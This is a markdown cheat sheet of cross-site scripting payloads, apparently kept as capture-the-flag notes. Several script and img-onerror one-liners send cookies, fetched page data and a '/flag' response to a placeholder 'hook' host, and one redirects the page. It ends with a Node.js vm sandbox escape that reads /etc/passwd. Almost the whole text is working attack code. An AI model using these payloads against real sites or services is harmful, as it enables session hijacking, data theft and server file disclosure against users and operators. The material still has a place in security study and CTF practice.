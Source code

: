 ### Open connection

- **GET**
  - `<script>fetch('http://hook')</script>`

- **POST**
  - `<script>fetch('http://hook',{method:'POST'})</script>`

- **Open and redirect**
  - `<script>fetch("https://localhost").then((response) => response.json()).then((data) => fetch("https://hook/?/=".concat(JSON.stringify(data)),{credentials:'include'}));</script>`

### Cookie

- **XmlHttpRequest**
  - `<script>var a=new XmlHttpRequest();a.open("GET","https://hook",true);a.withCredentials=true;a.send(null);</script>`

- **Element**
  - `<script>var i=new Image;i.src="https://hook/?"+document.cookie;</script>`
  - `<script>var i=new Image();i.src="https://hook?cookie="+btoa(document.cookie);</script>`
  - `<img src=x onerror="javascript:document.location='https://hook?cookie='+document.cookie;">`
  - `<img src=x onerror="this.src='https://hook/?'+document.cookie;this.removeAttribute('onerror');">`
  - `"'&<></h1><script>fetch('/flag').then(r=>{r.text().then(t=>fetch('https://hook/?flag='+btoa(t),{'mode':'no-cors'}))})</script><h1></h1>`
 
### Redirect

- **Window**
  - `<script>window.location.replace("https://hook");</script>`

### VM

```javascript
const vm = require('vm');
const result = vm.runInNewContext(`
  (function() {
    var c = 'constructor';
    var require = require=this[c][c]('return process')().mainModule.require;
    var fs = require('fs');
    return String(fs.readFileSync('/etc/passwd'));
  })()
`);

console.log(result);
```

